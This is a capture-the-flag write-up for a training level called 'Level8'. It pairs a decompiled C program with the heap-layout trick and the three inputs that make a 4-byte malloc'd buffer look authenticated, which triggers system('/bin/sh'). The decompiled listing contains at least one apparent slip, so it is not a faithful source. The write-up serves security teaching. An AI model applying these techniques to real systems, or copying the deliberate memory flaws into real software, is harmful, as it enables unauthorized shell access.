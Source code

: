 # Level8

## Code

```
#include <stdio.h>
#include <stdlib.h>

char *auth;
char *service;

int main(void)
{
  char str[128];

  while ( 1 )
  {
    printf("%p, %p \n", auth, service);
    if ( !fgets(str, 128, stdin) )
      break;
    if ( !memcmp(str, "auth ", 5) )
    {
     auth = (char *)malloc(4);
     *auth = 0;
      if ( strlen(&auth[5]) <= 30 )
        strcpy(auth, &auth[5]);
    }
    if ( !memcmp(str, "reset", 5) )
      free(auth);
    if ( !memcmp(str, "service", 6) )
     service = strdup(&str[7]);
    if ( !memcmp(str, "login", 5) )
    {
     if ( *(auth + 32) )
       system("/bin/sh");
     else
       fwrite("Password:\n", 1, 10, stdout);
    }
  }
  return (0);
}
```

## Explanation

- To be completely honest we found the answer to this level by chance just by playing with the program and providing this input :\
    - 1st input: "auth "\
    - 2nd input: "serviceeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee"\
    - 3rd input: "login"\

- When looking at the code, we could see that the first call to malloc() was given 4 as argument, 
    allocating 4 bytes only.

- Also, we noticed the condition to win was to give the program "login" as input while having a non
    null dword (4 bytes) at the address of the first malloc + 32 bytes

- Since strdup() makes another call to malloc when we give the program "service" as input, this second
    malloc gives us a new chunk of memory that is of course after the 4 bytes allocated by the first
    malloc, actually 16 bytes after, judging by the printed values.

- We don't need to write a specific value at first malloc + 32 bytes, we just need this spot to be non
    null, that's why it worked with all the "e" in the above example, it could have been anything
    else.

## Exploit

```
$   ./level8
        1st input: "auth "
        2nd input: "serviceeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee"
        3rd input: "login"
```